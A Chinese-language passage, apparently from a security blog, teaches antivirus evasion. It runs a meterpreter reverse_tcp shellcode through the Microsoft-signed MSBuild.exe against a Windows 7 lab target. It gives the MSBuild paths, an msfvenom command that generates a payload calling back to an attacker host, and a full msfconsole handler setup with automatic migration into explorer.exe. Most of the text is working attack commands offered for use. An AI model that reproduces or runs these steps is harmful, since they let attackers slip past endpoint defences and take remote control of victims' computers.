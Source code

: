 到目前为止，我所知道的免杀姿势有以下几种

1. Windows白名单 俗称白加黑 也就是用带有微软签名的软件来运行我们自己的shellcode
2. payload分离免杀 比如shellcode loader
3. 换一门偏僻的语言来自己写反弹shell

而接下来的几种只适用于Windows。

攻击机：Kali Linux ：172.16.1.130

受害机：Win 7 ：172.16.1.135

# Windows白加黑

白加黑需要的payload可以使用[一句话下载姿势总结](https://y4er.com/post/download-shell/) 把payload下载到目标机器，这里不再赘述。

## MSBuild

> MSBuild是Microsoft Build Engine的缩写，代表Microsoft和Visual Studio的新的生成平台
>
> MSBuild可在未安装Visual Studio的环境中编译.net的工程文件
>
> MSBuild可编译特定格式的xml文件
>
> 更多基本知识可参照以下链接：
>
> https://msdn.microsoft.com/en-us/library/dd393574.aspx

意思就是msbuild可以编译执行csharp代码。

在这里我们需要知道的是msbuild的路径

加载32位的shellcode需要用32位的msbuild

```powershell
C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe
```

加载64位的shellcode需要用64位的msbuild

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe
```

我们这里用64位的shellcode和64位的win7来操作。

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.16.1.130 lport=4444 -f csharp
```

生成shellcode之后我们需要用到一个三好学生师傅的https://github.com/3gstudent/msbuild-inline-task

我们用的是`executes x64 shellcode.xml`的模板，把里面45行之后的改为自己的shellcode

然后msf监听

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 172.16.1.130
set LPORT 4444
set ExitOnSession false
set autorunscript migrate -n explorer.exe
exploit -j
```
